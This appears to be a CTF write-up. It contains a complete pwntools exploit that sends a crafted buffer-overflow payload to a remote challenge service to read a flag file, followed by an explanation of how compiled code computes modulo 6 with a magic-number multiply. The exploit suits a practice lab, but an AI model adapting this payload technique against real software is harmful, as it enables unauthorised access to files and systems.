 ```
#!/usr/bin/python3

from pwn import *

#p = process('./image-viewer')
p = remote('plsdonthaq.me', 5003)

p.readuntil('pls')
p.sendline('trivial')

# checking byte alignment
p.readuntil('truth')
#filename = b'./flat earth truth\x00'
filename = b'./flag\x00'
p.sendline(b'-2' + b'AA' + filename + b'A' * (108 - len(filename)) + p32(0xfffffffe) + p32(0x804c064))

p.interactive()
```

## Reversing: Chall.jpg

---

_The magic numbers really threw me off_

My only thought when this compiled to something very close to the image was, "_Why is it that simple!?_ "
So I looked into it a bit more. I believe here's what the mod operation does (atleast in C)

1. Use the "magic number", in this case `0x2aaaaaab`, integer multiply with the sum of the two arguments.
2. Then get the top bit of the number. If the number is negative (top bit is 1), it would then subtract it from the product calculated in 1.
3. Now I call it the "magic number", because somehow at this point it has the calculated the largest number that when multiplied by 6 (the number that the sum is modded by) gives the largest number less than the sum. For example, if `(arg1 + arg2) == 13` then the calculated number is `2`. And `2 * 6 == 12` is the largest multiple of `6` less than `13`
4. The triple `add` instructions are simply multiplying the number calculated in (3) by `6`.
5. Then it subtracts the largest multiple from the sum and returns the remainder.
6. I also checked out odd number mods and that shifts the number to the right by `1` before shifting it back by `2`. hmmmmm
7. It also becomes very different when I optimize using the `-O2` flag.

```
int re_this(int arg1, int arg2) {
    return (arg1 + arg2) % 6;
}

```

## Source Code Auditing: source.c

---